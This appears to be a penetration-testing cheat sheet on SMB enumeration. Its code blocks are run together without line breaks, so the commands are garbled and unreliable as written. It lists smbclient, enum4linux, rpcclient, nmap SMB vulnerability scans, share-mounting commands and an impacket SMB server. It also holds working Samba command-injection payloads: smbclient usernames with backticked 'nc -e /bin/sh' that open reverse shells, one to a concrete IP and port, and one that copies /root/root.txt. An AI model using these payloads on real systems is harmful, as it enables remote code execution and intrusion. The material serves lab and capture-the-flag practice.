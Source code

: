 # **SMB Enumeration**

```
smbclient -L x.x.x.xsmbmount //x.x.x.x/share /mnt –o username=hodor,workgroup=hodorsmbclient \\\\x.x.x.x\\shareenum4linux -a iprpcclient -U "" x.x.x.x  #Anonymous bind using rpcclient / Null connectsmbclient //MOUNT/share #Connect to SMB share​smbclient -U "/=\`nohup nc -e /bin/sh LHOST LPORT\`" -N -I ip //LAME/tmp​nmap -T4 -sS -sC -Pn -A --script smb-vuln* ipsmbclient //ip/tmplogon "./=`nohup nc -e /bin/sh LHOST LPORT`"​smbclient -U "/=\`nohup cat /root/root.txt > /tmp/ttt\`" -N -I ip //LAME/tmp​smbclient -U "/=\`nohup nc -e /bin/sh 10.10.15.11 60000\`" -N -I ip //LAME/tmp​smbclient -L ipenum4linux -S ip​​​
```

## **Nmap SMB Script Scan <a href="#nmap-smb-script-scan" id="nmap-smb-script-scan"></a>**

```
#SMB Users and share Scannmap -p 445 -vv --script=smb-enum-shares.nse,smb-enum-users.nse ip​#SMB Vulnerability Scannmap -p 445 -vv --script=smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse ipnmap –script smb-check-vulns.nse –script-args=unsafe=1 -p445 ipnmap --script=smb-check-vulns.nse x.x.x.x​
```

```
mount ip:/vol/share /mnt/nfs  -nolockmount -t cifs -o username=user,password=pass,domain=blah //ip.X/share-name /mnt/cifsmount -t cifs //x.x.x.x/share /mntmount -t cifs -o username=hodor,password=hodor //x.x.x.x/share /mntMounting File Shareshowmount -e IPADDR
```

Mounting Share folder

```
sudo mount -t fuse.vmhgfs-fuse .host:/ /mnt/hgfs -o allow_other​
```

## **Create a SMB Server <a href="#create-a-smb-server" id="create-a-smb-server"></a>**

```
in kali hosting a smb serverimpacket-smbserver ShareFolder `pwd`​In windowsNew-PSDrive -Name "Followme" -PSProvider "FileSystem" -Root "\\ip\ShareFolder"
```
